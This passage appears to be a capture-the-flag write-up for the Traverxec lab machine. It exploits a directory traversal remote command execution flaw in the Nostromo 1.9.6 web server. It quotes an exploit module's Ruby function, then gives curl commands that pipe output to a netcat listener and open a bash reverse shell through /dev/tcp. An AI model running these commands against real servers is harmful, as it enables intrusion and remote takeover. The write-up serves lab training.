 Some googling reveals the [source for the MSF
exploit](https://packetstormsecurity.com/files/155045/Nostromo-1.9.6-Directory-
Traversal-Remote-Command-Execution.html) on PacketStorm. It targets up to
1.9.6, which is the version on Traverxec. Reading the source, I find the
`execute_command` function:

    
    
      def execute_command(cmd, opts = {})
        send_request_cgi({
          'method'  => 'POST',
          'uri'     => normalize_uri(target_uri.path, '/.%0d./.%0d./.%0d./.%0d./bin/sh'),
          'headers' => {'Content-Length:' => '1'},
          'data'    => "echo\necho\n#{cmd} 2>&1"
          }
        )
      end
    

It’s doing the same thing as the previous exploit, only this time, instead of
url encoding the `/` characters, there are extra `%0d` (or `\n` newlines)
between the `.`s.

### Exploit POC

I’ll start playing around with `curl` and see if I can get it to work. I’ll start with the following command: `curl -s -X POST 'http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh' -d "id | nc 10.10.14.6 443"`. The options are:

  * `-s` \- silence the progress bar and error messages
  * `-X POST` \- send a POST request
  * `http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh` \- The target, with the directory traversal to access `/bin/sh`
  * `-d "id | nc 10.10.14.6 443"` \- The command I want to run, which will send the results of `id` back to a listener on my box port 443.

When I run that, with `nc` listening on 443, I get results immediately:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.165.
    Ncat: Connection from 10.10.10.165:52998.
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### Shell

Now that I can run commands, I’ll run a command to get a shell:

    
    
    root@kali# curl -s -X POST 'http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh' -d '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'
    